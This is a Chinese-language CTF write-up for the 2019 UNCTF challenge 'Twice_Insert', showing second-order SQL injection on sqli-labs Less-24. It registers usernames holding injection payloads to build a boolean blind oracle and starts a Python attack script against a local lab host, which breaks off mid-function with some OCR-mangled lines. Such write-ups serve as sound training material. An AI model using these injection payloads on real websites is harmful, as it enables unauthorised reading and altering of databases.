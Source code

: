### Twice_Insert
#### 原理知识
1）	由于网站开发者在进行代码编写过程中未对输入参数进行严格校验及过滤，导致黑客可以通过构造SQL语句，获取目标网站后台数据库中的信息。

2）	SQL注入是输入特定的SQL语句达到SQL注入的效果，不同类型的SQL数据库类型所对应的SQL语句不一样，因此，尝试SQL注入测试前，需要获取目标网站数据库类型，通常，根据测试者的测试经验或采用不同数据库类型的测试的方法进行测试，有效获得目标网站真实数据库类型。

#### 解题过程
1）打开浏览器，访问目标主机，打开页面发现是sqli-labs-24关，原题是利用二次注入修改admin密码，这题修改admin密码却没有flag，要想拿到flag可能需要爆库。

2）根据题意，尝试布尔盲注

发现or被过滤

先注册一个用户，比如scl 1

然后注册 scl’and 1# 1

![](https://ctfwp.wetolink.com/2019unctf/Twice_Insert/15a739fa68845245743232b7c1eb9a25.png)

修改为0，

![](https://ctfwp.wetolink.com/2019unctf/Twice_Insert/072c4deede2956efe572d617b5530384.png)

需要将scl的密码重置为1

然后注册 scl’and 0# 1

登录修改密码

![](https://ctfwp.wetolink.com/2019unctf/Twice_Insert/4c28fdd6978b187d78ccb4e3a1dab41f.png)

提示

![](https://ctfwp.wetolink.com/2019unctf/Twice_Insert/83935b512a19b991f90f6be4add3eace.png)

说明更新失败，可以布尔盲注

1.  写个脚本

```
#
coding = utf - 8
import requests
url = "http://127.0.0.1/sqli/Less-24/login_create.php"
url1 = "http://127.0.0.1/sqli/Less-24/login.php"
url2 = "http://127.0.0.1/sqli/Less-24/pass_change.php"
#
将密码改回1
def change21():
    user = "scl"
    s = requests.session()
    data = {
        "login_user": user,
        "login_password": '0',
        "mysubmit": "Login"
    }
    r = s.post(url1, data)
    data = {
        "current_password": '0',
        "password": '1',
        "re_password": '1',
        "submit": 'Reset'
    }
    r = s.post(url2, data)

def second():
    flag = ""
```